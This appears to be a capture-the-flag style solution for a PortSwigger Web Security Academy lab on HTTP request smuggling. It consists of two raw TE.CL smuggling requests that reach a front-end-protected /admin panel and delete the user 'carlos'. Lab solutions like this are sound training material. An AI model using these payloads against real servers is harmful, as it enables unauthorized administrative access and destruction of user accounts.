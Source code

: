 # Lab

https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

## Solution

```http
POST / HTTP/1.1
Host: 0a2300bf04669ad480c3eaf500d400fa.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

73
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1

0

```

```http
POST / HTTP/1.1
Host: 0a2300bf04669ad480c3eaf500d400fa.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

8a
POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1

0

```